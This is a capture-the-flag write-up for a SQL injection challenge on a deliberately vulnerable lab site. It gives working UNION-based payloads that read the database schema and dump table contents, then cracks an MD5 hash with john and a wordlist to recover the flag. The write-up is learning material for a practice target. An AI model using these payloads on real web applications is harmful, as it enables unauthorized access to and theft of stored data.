 # SQL injection
- a type of attack where a malicious user attempts to pass input that alters the final SQL query sent by the web application to the database
- the attacker first injects SQL code and then manipulates the web application logic, either by changing the original query or executing a completely new one
- https://book.hacktricks.xyz/pentesting-web/sql-injection

<b>keywords</b>: SQL basic<br>
<b>attacked site</b>: http://borntosec.42/?page=images

## Exploit
On the images page, there’s a search bar similar to the one on the members page. After some initial examination, we can see that we are interacting with the same database but a different schema: (<code>1 OR 1=1 UNION SELECT 1,database()-- -</code>):
``` sql
1 OR 1=1 UNION SELECT 1,database()-- -
```
└─     Output:
```
ID: 1 OR 1=1 UNION SELECT 1,database()-- - 
Title: Member_images
Url : 1
```
Next, we check the columns that this table offers:
``` sql
1 OR 1=1 UNION SELECT COLUMN_NAME,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS-- -
```
└─     Filtered output:
```
[...]
ID: 1 OR 1=1 UNION SELECT COLUMN_NAME,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS--  
Title: list_images
Url : id
[...]
```
Now we know that the <code>list_images</code> table includes these columns:
```
id, url, title, comment
```
Enumerating the columns manually would be time-consuming, so we concatenate the columns to display them in the second column:
``` sql
1 OR 1=1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images
```
└─     Output:
```
ID: 1 OR 1=1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 5borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 	1928e8083cf461a51303633093573c46
Url : 1
```
Given the hashed password and the encryption method, we can directly brute-force it using <code>john</code>:
``` shell
└─$ john sql2_hash.txt --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
albatroz         (?)     
1g 0:00:00:00 DONE (2024-08-08 23:35) 5.000g/s 5166Kp/s 5166Kc/s 5166KC/s aldaya..alamo7
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```
Finally, we hash the password using SHA-256:
``` shell
└─$ echo -n "albatroz" | sha256sum                                         
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188  -
```
## Flag
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
